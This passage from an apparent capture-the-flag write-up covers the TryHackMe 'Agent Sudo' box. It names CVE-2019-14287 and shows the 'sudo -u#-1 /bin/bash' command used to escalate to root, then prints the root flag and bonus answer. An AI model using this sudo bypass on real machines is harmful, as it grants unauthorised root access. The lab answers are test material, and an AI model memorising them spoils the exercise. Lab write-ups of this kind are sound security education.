 ![11](https://github.com/Knign/Write-ups/assets/110326359/e2554b6d-f078-4492-aa49-9213cbc9ddcc)


### Answer
```
CVE-2019-14287
```

&nbsp;

### What is the root flag?
- We can also find the exploit for this vulnerability on Exploit Database.

![12](https://github.com/Knign/Write-ups/assets/110326359/4267c425-95dd-4127-8b2f-922bcde624f6)


- Let's enter that in the terminal.
```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# 
```
- We have successfully escalated out privilege to root.
- Let's `cat` the root flag.
```
root@agent-sudo:/root# cd /root ; cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```
### Answer
```
b53a02f55b57d4439e3341834d70c062
```

&nbsp;

### (Bonus) Who is Agent R?
- The message was from `Agent R` who is also known as `DesKel`.
### Answer
```
DesKel
```
